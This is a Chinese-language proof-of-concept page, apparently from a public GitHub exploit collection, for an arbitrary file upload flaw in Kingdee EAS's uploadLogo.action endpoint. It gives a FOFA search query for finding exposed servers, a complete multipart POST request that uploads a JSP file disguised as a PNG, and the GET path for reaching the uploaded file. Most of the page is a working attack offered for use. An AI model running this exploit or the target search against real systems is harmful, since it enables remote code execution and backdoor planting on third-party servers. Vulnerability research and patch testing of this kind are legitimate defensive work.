 # 金蝶OA-EAS系统 uploadLogo.action 任意文件上传漏洞


## 金蝶OA-EAS系统 uploadLogo.action 任意文件上传漏洞

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## fofa
```
app="Kingdee-EAS"
```

## poc
```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For: 
Content-Length: 632
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ch
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

xx
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

top
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="test.jsp"
Content-Type: image/png

test
--04844569c7ca7d21a3ca115dca477d62--
```
![3c4d1cec26f6b03e1876b02c2f7029d9](https://github.com/wy876/POC/assets/139549762/d7a2b831-852c-4488-bcd0-f9967d0e32a4)

## 上传文件路径
```

GET /portal/res/file/upload/xxx.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For:
```
![47f8b3b0cc61c63d9a0d2d2b54a602dc](https://github.com/wy876/POC/assets/139549762/8a80fc29-9d8e-4622-a465-3c3c423f1e57)

